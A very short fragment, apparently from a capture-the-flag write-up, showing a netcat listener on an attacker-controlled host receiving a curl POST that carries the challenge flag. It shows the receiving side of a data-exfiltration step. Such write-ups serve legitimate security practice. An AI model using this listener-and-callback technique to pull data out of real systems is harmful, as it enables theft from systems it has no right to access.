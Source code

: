 ```

```
$ nc -l 8001
POST / HTTP/1.1
User-Agent: curl/7.38.0
Host: myserver:8001
Accept: */*
Content-Length: 26
Content-Type: application/x-www-form-urlencoded

nland{d166y-d166y-3xpl017}
```
